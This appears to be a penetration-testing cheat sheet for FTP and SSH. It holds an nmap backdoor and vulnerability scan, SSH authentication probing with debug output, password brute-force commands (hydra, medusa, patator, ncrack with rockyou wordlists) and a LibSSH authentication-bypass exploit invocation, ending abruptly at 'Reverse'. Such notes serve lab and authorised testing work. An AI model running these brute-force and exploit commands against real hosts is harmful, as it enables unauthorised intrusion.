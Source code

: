 

## Port 21 - FTP

```bash
nmap --script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 10.11.1.111
```

## Port 22 - SSH

- If you have usernames test login with username:username
- Vulnerable Versions: 7.2p1

```
Vulnerable Versions: 7.2p1
nc 10.11.1.111 22

User can ask to execute a command right after authentication before it’s default command or shell is executed

$ ssh -v user@10.10.1.111 id
...
Password:
debug1: Authentication succeeded (keyboard-interactive).
Authenticated to 10.10.1.111 ([10.10.1.1114]:22).
debug1: channel 0: new [client-session]
debug1: Requesting no-more-sessions@openssh.com
debug1: Entering interactive session.
debug1: pledge: network
debug1: client_input_global_request: rtype hostkeys-00@openssh.com want_reply 0
debug1: Sending command: id
debug1: client_input_channel_req: channel 0 rtype exit-status reply 0
debug1: client_input_channel_req: channel 0 rtype eow@openssh.com reply 0
uid=1000(user) gid=100(users) groups=100(users)
debug1: channel 0: free: client-session, nchannels 1
Transferred: sent 2412, received 2480 bytes, in 0.1 seconds
Bytes per second: sent 43133.4, received 44349.5
debug1: Exit status 0

Check Auth Methods:

$ ssh -v 10.10.1.111
OpenSSH_8.1p1, OpenSSL 1.1.1d  10 Sep 2019
...
debug1: Authentications that can continue: publickey,password,keyboard-interactive

Force Auth Method:

$ ssh -v 10.10.1.111 -o PreferredAuthentications=password
...
debug1: Next authentication method: password

BruteForce:

patator ssh_login host=10.11.1.111 port=22 user=root 0=/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt password=FILE0 -x ignore:mesg='Authentication failed.'
hydra -l user -P /usr/share/wordlists/password/rockyou.txt -e s ssh://10.10.1.111
medusa -h 10.10.1.111 -u user -P /usr/share/wordlists/password/rockyou.txt -e s -M ssh
ncrack --user user -P /usr/share/wordlists/password/rockyou.txt ssh://10.10.1.111

LibSSH Before 0.7.6 and 0.8.4 - LibSSH 0.7.6 / 0.8.4 - Unauthorized Access 
Id
python /usr/share/exploitdb/exploits/linux/remote/46307.py 10.10.1.111 22 id
Reverse
```